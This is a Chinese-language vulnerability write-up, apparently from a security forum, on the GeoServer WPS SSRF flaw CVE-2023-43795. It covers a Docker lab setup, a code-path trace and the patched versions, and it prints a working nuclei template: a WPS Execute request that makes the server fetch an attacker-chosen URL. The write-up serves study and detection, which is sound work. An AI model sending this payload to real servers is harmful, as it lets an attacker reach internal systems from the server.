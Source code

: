 

# CVE-2023-43795 GeoServer ssrf 漏洞分析 - 先知社区

CVE-2023-43795 GeoServer ssrf 漏洞分析

* * *

# 0x00 概述

GeoServer 是一个用 Java 编写的开源软件服务器，它可以让用户共享和编辑地理空间数据，GeoServer 遵循 OpenGIS Web 服务器规范，使用开放标准发布来自任何主要空间数据源的数据。经过分析，该软件存在ssrf漏洞，攻击者可以从服务端实现任意请求伪造。

| 字段  | 值   | 备注  |
| --- | --- | --- |
| 漏洞编号 | CVE-2023-43795 |     |
| 漏洞厂商 | GeoServer |     |
| 厂商官网 | [https://geoserver.org/](https://geoserver.org/) |     |
| 影响对象类型 | Web应用 |     |
| 影响产品 | GeoServer |     |
| 影响版本 | version<2.22.5,version < 2.23.2 |     |
|     |     |

# 0x01 漏洞影响

[https://github.com/geoserver/geoserver/security/advisories/GHSA-5pr3-m5hm-9956](https://github.com/geoserver/geoserver/security/advisories/GHSA-5pr3-m5hm-9956)

*   version<2.22.5,version < 2.23.2
    
*   需要安装 wps 插件
    

# 0x02 漏洞环境

基于 [https://github.com/vulhub/vulhub/tree/master/geoserver/CVE-2023-25157](https://github.com/vulhub/vulhub/tree/master/geoserver/CVE-2023-25157) 进行搭建，只是要安装wps插件

这里版本为2.22.1

安装对应版本的wps插件，下载：[https://sourceforge.net/projects/geoserver/files/GeoServer/2.22.1/extensions/geoserver-2.22.1-wps-plugin.zip/download，下载完之后解压](https://sourceforge.net/projects/geoserver/files/GeoServer/2.22.1/extensions/geoserver-2.22.1-wps-plugin.zip/download%EF%BC%8C%E4%B8%8B%E8%BD%BD%E5%AE%8C%E4%B9%8B%E5%90%8E%E8%A7%A3%E5%8E%8B)

修改docker compose：

```plain
version: '3'
services:
 web:
   image: vulhub/geoserver:2.22.1
   depends_on:
    - postgres
   ports:
    - "8080:8080"
    - "5005:5005"
   volumes:
     - ./startup.sh:/startup.sh
     - ./startup2.sh:/mnt/geoserver/bin/startup.sh
     - ./gs-web-wps-2.22.1.jar:/mnt/geoserver/webapps/geoserver/WEB-INF/lib/gs-web-wps-2.22.1.jar
     - ./gs-wps-core-2.22.1.jar:/mnt/geoserver/webapps/geoserver/WEB-INF/lib/gs-wps-core-2.22.1.jar
     - ./gs-wps-kml-ppio-2.22.1.jar:/mnt/geoserver/webapps/geoserver/WEB-INF/lib/gs-wps-kml-ppio-2.22.1.jar
     - ./gt-csv-28.1.jar:/mnt/geoserver/webapps/geoserver/WEB-INF/lib/gt-csv-28.1.jar
     - ./gt-process-geometry-28.1.jar:/mnt/geoserver/webapps/geoserver/WEB-INF/lib/gt-process-geometry-28.1.jar
     - ./gt-xsd-kml-28.1.jar:/mnt/geoserver/webapps/geoserver/WEB-INF/lib/gt-xsd-kml-28.1.jar
     - ./gt-xsd-wps-28.1.jar:/mnt/geoserver/webapps/geoserver/WEB-INF/lib/gt-xsd-wps-28.1.jar
     - ./net.opengis.wps-28.1.jar:/mnt/geoserver/webapps/geoserver/WEB-INF/lib/net.opengis.wps-28.1.jar
     - ./opencsv-5.0.jar:/mnt/geoserver/webapps/geoserver/WEB-INF/lib/opencsv-5.0.jar
     - ./serializer-2.7.2.jar:/mnt/geoserver/webapps/geoserver/WEB-INF/lib/serializer-2.7.2.jar
   command: bash /startup.sh
 postgres:
   image: postgis/postgis:14-3.3-alpine
   environment: 
    - POSTGRES_PASSWORD=vulhub
    - POSTGRES_DB=geoserver
```

如果要调试的话，修改一下容器中的 `/mnt/geoserver/bin/startup.sh` 文件：

[![](assets/1701606526-d4046ba73acb5fcff31c7c301dec59a8.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231124001330-3dc411d4-8a1b-1.png)

```plain
-agentlib:jdwp=transport=dt_socket,server=y,suspend=n,address=*:5005
```

# 0x03 漏洞验证和利用

运行nuclei：

```plain
id: CVE-2023-43795

info:
  name: GeoServer WPS - Server Side Request Forgery
  author: DhiyaneshDK
  severity: critical
  description: |
    GeoServer is an open source software server written in Java that allows users to share and edit geospatial data. The OGC Web Processing Service (WPS) specification is designed to process information from any server using GET and POST requests. This presents the opportunity for Server Side Request Forgery. This vulnerability has been patched in version 2.22.5 and 2.23.2.
variables:
  string: "{{to_lower(rand_text_alpha(4))}}"
  value: "{{to_lower(rand_text_alpha(5))}}"

http:
  - raw:
      - |
        POST {{path}} HTTP/1.1
        Host: {{Hostname}}
        Content-Type: application/xml

        <?xml version="1.0" encoding="UTF-8"?>
        <wps:Execute version="1.0.0" service="WPS"
          xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
          xmlns="http://www.opengis.net/wps/1.0.0"
          xmlns:wfs="http://www.opengis.net/wfs"
          xmlns:wps="http://www.opengis.net/wps/1.0.0"
          xmlns:ows="http://www.opengis.net/ows/1.1"
          xmlns:gml="http://www.opengis.net/gml"
          xmlns:ogc="http://www.opengis.net/ogc"
          xmlns:wcs="http://www.opengis.net/wcs/1.1.1"
          xmlns:xlink="http://www.w3.org/1999/xlink"
                xsi:schemaLocation="http://www.opengis.net/wps/1.0.0 http://schemas.opengis.net/wps/1.0.0/wpsAll.xsd">
          <ows:Identifier>JTS:area</ows:Identifier>
          <wps:DataInputs>
            <wps:Input>
              <ows:Identifier>geom</ows:Identifier>
              <wps:Reference mimeType="application/json" xlink:href="http://{{interactsh-url}}" method="GET">
                <wps:Header key="{{string}}" value="{{value}}"/>
              </wps:Reference>
            </wps:Input>
          </wps:DataInputs>
          <wps:ResponseForm>
            <wps:RawDataOutput>
              <ows:Identifier>result</ows:Identifier>
            </wps:RawDataOutput>
          </wps:ResponseForm>
        </wps:Execute>

    payloads:
      path:
        - /wms
        - /geoserver/wms

    stop-at-first-match: true
    matchers:
      - type: dsl
        dsl:
          - contains(interactsh_protocol, 'http')
          - contains_all(to_lower(interactsh_request), '{{string}}','{{value}}')
          - status_code == 200
        condition: and
```

```plain
nuclei.exe -t CVE-2023-43795.yaml -u http://192.168.88.132:8080/
```

[![](assets/1701606526-7e65a5154e1067863eaceb53f3c91e88.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231124001342-45562a0e-8a1b-1.png)

# 0x04 漏洞分析

访问 `/geoserver/wms` ，在`org.geoserver.ows.Dispatcher` 的 `service()` 中，会调用 `this.findService()` 确定要调用的service：

[![](assets/1701606526-185e53745e09469184f7bb4c1f2df48a.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231124001412-56da9076-8a1b-1.png)

调用 `this.execute()` ：

[![](assets/1701606526-2498afa16d3506a1e69b5bb5150d4c81.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231124001421-5cb628c0-8a1b-1.png)

来到 `org.geoserver.wps.DefaultWebProcessingService` 的 `execute()` ：

[![](assets/1701606526-e674b5110b821d87a753c5cf95806b66.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231124001430-61ddfb20-8a1b-1.png)

跟进由一个 `executionManager` 负责处理 request ：

[![](assets/1701606526-b5a386de3bd62dbd4ea9e16a20448cd3.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231124001438-66bf4b26-8a1b-1.png)

最终调用一个 `WPSExecutionManager$Executor` 对象的 `call()` ：

[![](assets/1701606526-1ece104e45a58e23a9f3b87e37b7c43a.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231124001446-6b5e0e74-8a1b-1.png)

最终触发 `org.apache.http.impl.client.CloseableHttpClient.execute()` 实现ssrf：

[![](assets/1701606526-ebb24a81a0bcbfd67f6c1d62f33e2c58.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231124001453-6f813512-8a1b-1.png)

[![](assets/1701606526-94401f052c43739adbe98004ae9a365d.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231124001459-733248c2-8a1b-1.png)

# 0x05 漏洞修复

更新版本到 >=2.22.5 ，或更新版本>= 2.23.2
